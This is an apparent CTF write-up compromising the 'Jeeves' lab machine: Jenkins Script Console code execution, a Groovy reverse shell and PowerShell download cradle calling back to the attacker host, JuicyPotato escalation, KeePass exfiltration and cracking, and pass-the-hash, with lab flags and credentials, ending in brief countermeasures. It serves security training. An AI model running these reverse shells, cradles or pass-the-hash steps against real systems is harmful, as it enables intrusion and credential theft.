



# Jeeves


#### Machine Release Date: November 11, 2017

## Active Ports

```bash
sudo nmap -p80,135,445,50000 -sC -sV -oA nmap/full-tcp-version 10.10.10.63
```

```none
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-07 15:10 EDT
Nmap scan report for 10.10.10.63
Host is up (0.034s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h02m48s, deviation: 0s, median: 5h02m48s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-09-08T00:13:54
|_  start_date: 2020-09-07T23:42:25

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.29 seconds
```

## Vulnerability Discovery

The web service on port 80 yielded nothing other than a static webpage (the search option simply renders a screenshot of an error page which is irrelevant for solving the rest of this machine):


The web service on port 50000 on the other hand, looked like it was expecting some sort of file:



Since SMB and RPC didn't allow anonymous authentication, I figured I might as well discover more content on the web services. I managed to find an `/askjeeves` directory under the web service on port 50000:

```none
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -u http://10.10.10.63:50000 -o raft-large-words.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.63:50000
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/08 13:37:11 Starting gobuster
===============================================================
/askjeeves (Status: 302)
===============================================================
2020/09/08 13:44:18 Finished
===============================================================
```

Navigating to `http://10.10.10.63:50000/askjeeves` redirected me to a jenkins service:



## Exploitation (Jenkins Script Console Remote Code Execution)

After some google searching, I found out that it is possible to execute code from the Jenkins Script Console at `http://10.10.10.63:50000/askjeeves/script`. I used code from following [jist](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to get a netcat reverse shell.

```none
String host="10.10.14.24";
int port=2001;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49676.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>
```

At this point, I was running commands as the `kohsuke` user and grabbed the `user.txt` flag:

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49679.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>cd C:\
C:\>type c:\Users\kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```

### Upgrading the Reverse Shell

At this point, I upgraded my `cmd.exe` session to a powershell session by using the `Invoke-PowerShellTcp.ps1` script from the [nishang](https://github.com/samratashok/nishang) PowerShell post-exploitation framework to get a netcat PowerShell reverse shell session.

The command below invokes PowerShell to download the `Invoke-PowerShellTcp.ps1` script from a web server on my Kali machine and execute it:

```dos
powershell -Command "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')"
```

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49681.
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\>
```

## Privilege Escalation Path 1 (Juicy Potato)

Checking the `kohsuke` user's groups and privileges revealed that they were part of the `NT AUTHORITY\SERVICE` group and had the `SeImpersonatePrivilege` privilege:

```none
PS C:\>whoami /all

USER INFORMATION
----------------

User Name      SID
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Checking the system information revealed that the operating system was running `Windows 10 Professional` and had a few patches installed:

```none
PS C:\> systeminfo

Host Name:                 JEEVES
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.10586 N/A Build 10586
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00331-20304-47406-AA297
Original Install Date:     10/25/2017, 4:45:33 PM
System Boot Time:          9/8/2020, 6:39:21 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,104 MB
Virtual Memory: Max Size:  2,687 MB
Virtual Memory: Available: 1,712 MB
Virtual Memory: In Use:    975 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 10 Hotfix(s) Installed.
                           [01]: KB3150513
                           [02]: KB3161102
                           [03]: KB3172729
                           [04]: KB3173428
                           [05]: KB4021702
                           [06]: KB4022633
                           [07]: KB4033631
                           [08]: KB4035632
                           [09]: KB4051613
                           [10]: KB4041689
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.63
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

The combination of being part of the `NT AUTHORITY\SERVICE`, having the `SeImpersonatePrivilege` privilege, and running on a `Windows 10 Professional x64` machine is a recipe for the [JuicyPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato) privilege escalation exploit which allows the user to execute arbitrary commands with `SYSTEM` privileges.

I downloaded the `JuicyPotato.exe` exploit from my Kali machine to the jeeves host via HTTP:

```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.24:8000/JuicyPotato.exe","C:\Windows\Temp\r0kit\JuicyPotato.exe")
```

I then ran the exploit such that I could invoke a temporary PowerShell command that would download and execute the `Invoke-PowerShellTcp.ps1` script from my Kali machine which would connect back to my netcat listener. This would grant me a PowerShell reverse shell with `SYSTEM` privileges.

```none
PS C:\Windows\Temp\r0kit> .\JuicyPotato.exe -l 1337 -p 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' -a "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/Invoke-PowerShellTcp.ps1')" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```none
$ rlwrap ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 10.10.10.63.
Ncat: Connection from 10.10.10.63:49690.
Windows PowerShell running as user JEEVES$ on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
```

### Grabbing the root.txt Flag (Alternate Data Streams)

At this point, I found a file `C:\Users\Administrator\Desktop\hm.txt` rather than `C:\Users\Administrator\Desktop\root.txt`:

```none
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/24/2017   2:51 AM             36 hm.txt
-a----        11/8/2017   9:05 AM            797 Windows 10 Update
                                                 Assistant.lnk


PS C:\Users\Administrator\Desktop> Get-Content hm.txt
The flag is elsewhere.  Look deeper.
```

The keyword here was `Look deeper`. From prior experience, I knew that in some CTFs, challenge authors like to hide flags in alternate data streams within files that seem empty or irrelevant. I figured I would check all data streams in `C:\Users\Administrator\Desktop\hm.txt`:

```none
PS C:\Users\Administrator\Desktop> Get-Item .\hm.txt -Stream *


   FileName: C:\Users\Administrator\Desktop\hm.txt

Stream                   Length
------                   ------
:$DATA                       36
root.txt                     34
```

It looks like there was a `root.txt` data stream embedded in `C:\Users\Administrator\Desktop\hm.txt`! After dumping the content from the `root.txt` data stream, I was able to capture the `root.txt` flag:

```none
PS C:\Users\Administrator\Desktop> Get-Item .\hm.txt -Stream root.txt


   FileName: C:\Users\Administrator\Desktop\hm.txt

Stream                   Length
------                   ------
root.txt                     34


PS C:\Users\Administrator\Desktop> Get-Content .\hm.txt -Stream root.txt
afbc5bd4b615a60648cec41c6ac92530
```

## Privilege Escalation Path 2 (Sensitive Information Disclosure)

Another useful thing you can do to escalate your privileges is to search for sensitive information with the amount of access you have been given. In this case, I enumerated the `C:\Users\kohsuke` directory for quick sensitive information:

```none
PS C:\Users\kohsuke> gci -rec

... CONTENT SNIPPED ...

    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx
```

A `.kdbx` file is a [KeePass](https://keepass.info/) database file. KeePass is essentially an offline password manager, so this was a treasure trove of secrets.
I quickly mounted an SMB share between jeeves and my Kali machine to download the file via SMB:

```none
PS C:\Users\kohsuke> $pass = ConvertTo-SecureString "h4ckit" -AsPlaintext -Force
PS C:\Users\kohsuke> $creds = System.Management.Automation.PSCredential("r0kit",$pass)
PS C:\Users\kohsuke> New-PSDrive -Name r -Root "\\10.10.14.24\r0kit" -PSProvider FileSystem -Credential $creds

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
r                                      FileSystem    \\10.10.14.24\r0kit


PS C:\Users\kohsuke> cp C:\Users\kohsuke\Documents\CEH.kdbx r:\
```

```none
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/ -username r0kit -password h4ckit -smb2support
[sudo] password for kali:
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49694)
[*] AUTHENTICATE_MESSAGE (\r0kit,JEEVES)
[*] User JEEVES\r0kit authenticated successfully
[*] r0kit:::4141414141414141:726e544bf390926a924ff611c23590dd:010100000000000080b8cec20e86d6013f2eb37fb782615e0000000001001000640047005600780047006a004e00700003001000640047005600780047006a004e0070000200100055004d005900780055006b0057004f000400100055004d005900780055006b0057004f000700080080b8cec20e86d60106000400020000000800300030000000000000000000000000300000fe14972fc6aa5afbb06dc2eef0647acfdb2500ac282c44224aba8e19c4bef92f0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003400000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:r0kit)
[*] Disconnecting Share(1:IPC$)
[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (10.10.10.63,49694)
[*] Remaining connections []
```

Since `.kdbx` files require a master password, I needed a way to crack it. After some research, I figured out that I was able to extract the KeePass master database password hash so that I could then pass it to `hashcat` for cracking:

```none
$ keepass2john CEH.kdbx > CEH.john
$ cat CEH.john
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

After transferring the hash to my password cracking rig, I cracked the keepass master password with `hashcat`:

```none
$ hashcat --example-hashes | grep -B1 -i keepass
MODE: 13400
TYPE: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
HASH: $keepass$*2*24569*0*c40432355cce7348c48053ceea0a28e7d18859c4ea47e3a799c6300861f64b95*265dafcc42e1537ff42e97e1e283c70014133be0fe2d420b4d24c6d57c9d2207*a00e20a852694c15aabb074d61b902fa*48dd553fb96f7996635f2414bfe6a1a8429ef0ffb71a1752abbef31853172c35*a44ae659958ad7fae8c8952cb83f3cf03fec2371ce22a8bf7fac1e687af2f249*1*64*5a26ea376cc5afc955104c334571d30486acbac512a94b75ca82a9e31dd97bf7
```

```none
PS D:\hashcat\hashcat-6.0.0> .\hashcat.exe -a 0 -m 13400 ..\hashes\jeeves.keepass ..\wordlists\rockyou.txt
hashcat (v6.0.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #3: Unstable OpenCL driver detected!

This OpenCL driver has been marked as likely to fail kernel compilation or to produce false negatives.
You can use --force to override this, but do not report related errors.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 11.0)
====================
* Device #1: GeForce GTX 1650 with Max-Q Design, 3323/4096 MB, 16MCU

OpenCL API (OpenCL 1.2 CUDA 11.0.208) - Platform #1 [NVIDIA Corporation]
========================================================================
* Device #2: GeForce GTX 1650 with Max-Q Design, skipped

OpenCL API (OpenCL 2.1 ) - Platform #2 [Intel(R) Corporation]
=============================================================
* Device #3: Intel(R) UHD Graphics 630, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 345 MB

Dictionary cache hit:
* Filename..: ..\wordlists\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: KeePass 1 (AES/Twofish) and KeePass 2 (AES)
Hash.Target......: $keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea...47db48
Time.Started.....: Tue Sep 08 15:41:32 2020 (2 secs)
Time.Estimated...: Tue Sep 08 15:41:34 2020 (0 secs)
Guess.Base.......: File (..\wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    50903 H/s (25.82ms) @ Accel:2 Loops:256 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 65536/14344385 (0.46%)
Rejected.........: 0/65536 (0.00%)
Restore.Point....: 32768/14344385 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:5888-6000
Candidates.#1....: dyesebel -> sabrina7
Hardware.Mon.#1..: Temp: 60c Util: 95% Core:1815MHz Mem:3500MHz Bus:16

Started: Tue Sep 08 15:41:24 2020
Stopped: Tue Sep 08 15:41:35 2020
```

As seen in the text above, the `.kdbx` master password was `moonshine1`. I then installed a copy of `keepass2` on my Kali machine, and entered the master password to access all secrets in the `.kdbx` file.



I then exported all the secrets from the keepass database file as an HTML file:


From here, I performed a password spraying attack with `crackmapexec` against all known users:

```none
$ crackmapexec smb 10.10.10.63 -u usernames.txt -p passwords.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:12345 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke: STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:Password STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:12345 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:F7WhTrSFDKB6sxHU1cUn STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:pwndyouall! STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:lCEUnYPjNfIuPZSzOySA STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:S1TjAtJHKsugh9oC4VZl STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator: STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
```

None of the secrets worked as passwords for my list of users. However, I noticed that the last secret in the `.kdbx` file looked like an NTLM hash.
I ran `crackmapexec` with the hash against the list of users again just to realize that I compromised the Administrator's hash:

```none
kali@kali:~/htb/boxes/jeeves/privesc$ crackmapexec smb 10.10.10.63 -u usernames.txt -H hashes.txt
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [-] JEEVES\kohsuke aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 STATUS_LOGON_FAILURE
SMB         10.10.10.63     445    JEEVES           [+] JEEVES\Administrator aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

I then passed the hash with impacket's `smbexec.py` to get a remote Administrator console session, fully compromising the system:

```none
$ python3 ~/tools/impacket/examples/smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

## Countermeasures

* Put access controls on the Jenkins service at `http://10.10.10.63:50000` so that malicious users cannot execute arbitrary scripts from the console. If you are not using it, uninstall or disable it.
* Prefer not to keep sensitive information on a server that is running services that have little/no access controls for the services installed on them. If you still want to keep sensitive information there, create a dedicated user to run the services such as Jenkins. That dedicated user's task should be only to run Jenkins (i.e. no sensitive information or secrets should be placed in that user's directories in the case of a breach).
